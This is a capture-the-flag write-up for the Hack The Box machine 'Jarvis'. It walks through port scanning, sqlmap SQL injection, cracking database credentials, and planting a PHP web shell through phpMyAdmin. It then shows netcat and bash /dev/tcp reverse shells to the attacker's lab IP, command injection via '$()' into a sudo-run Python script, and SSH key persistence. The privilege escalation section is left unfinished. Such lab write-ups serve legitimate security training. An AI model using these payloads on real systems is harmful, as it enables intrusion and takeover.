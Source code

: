 # Recon
As usual we start with a port scan against the target:
```
sudo nmap -sCV -O -p- 10.10.10.143 -oN nmap.txt T5
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Jarvis/assets/1.png">

We discover 3 open ports. We'll start by investigating the webservice on port 80. In the background we'll start a ```gobuster``` scan in search for files and directories.

# Enumeration
```
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.143
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Jarvis/assets/2.png">

We've found a ```/phpmyadmin``` directory. When we browse to the directory we are welcomed with a login form. In the manuals we find out it's running version 4.8.0 which is known to have a remote code execution vulnerability. We do however need a username and password to use the exploit.

Trying ```supersecurehotel``` as username and password (found on the homepage) and other simple usernames and passwords didn't work.

```Whatweb``` didn't return much. There is a weird ```ironwaf```.
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Jarvis/assets/3.png">

When we browse to the webservice on port ```64999``` we are immediately confronted with the following message:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Jarvis/assets/4.png">

# Initial Foothold (Method 1)
We can try to run ```sqlmap``` on the host. When we use ```crawl=2``` it'll also scan for links in pages. We combine this with ```--os-shell``` to hopefully get a shell on the host.
```
sqlmap -u http://10.10.10.143 --os-shell --crawl=2
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Jarvis/assets/5.png">

We can use this to get a more stable shell. We'll host a php reverse shell script on our attacking machine and download it using ```wget```. Then we browse to our page to get a reverse shell in return.

# Initial Foothold (Method 2)
Another method is to run ```sqlmap``` with the ```password``` argument to look for passwords om the database. 
```
sqlmap -u http://jarvis.htb/room.php?cod=1 --random-agent --passwords
```

We use the rockyou wordlist to crack the password and got a reult for user ```DBadmin```:
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Jarvis/assets/8.png">

We can now use these credentials to login the ```/phpmyadmin``` page and run sql commands on the target. 
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Jarvis/assets/9.png">

```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/command.php"
```

And test it by browsing to:
```
http://10.10.10.143/command.php?cmd=whoami
```
Let's use this to create a reverse shell. With a listener ready on our attacking machine we run the following on our target:
```
http://10.10.10.143/command.php?cmd=nc%2010.10.14.10%204444%20-e%20/bin/sh
```
This gives us a revse shell as user ```www-data```.

# Lateral Movement
We can run ```simpler.py``` as ```pepper```:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Jarvis/assets/6.png">

We can see that certain syumbols are blocked for use. This doesn't count for ```$```. We can abuse this to run additional code and ultimately gives us a reverse shell as user ```pepper```. First we'll try it out by giving ```$(whoami)``` as IP argument: 
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Jarvis/assets/7.png">

That worked. We can now try to create a reverse shell:

```
echo 'bash -c "bash -i >& /dev/tcp/10.10.14.10/4445 0>&1"' > /tmp/shell.sh
chmod +x /tmp/shell.sh
```
And then again run the following code while we have our ```nc``` listener ready:
```
/tmp$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
```
And enter ```$(/tmp/shell.sh)``` as IP. Now we have a shell als ```pepper```.

To get a more persistent access we will create a ssh keypair by running ```ssh-keygen``` on our attacking machine and by saving the ```id_rsa.pub``` as ```/home/pepper/.ssh/authorized_keys```. Now we can use ssh to login as ```pepper```.

# Privilege escalation
[TO BE CONTINUED]





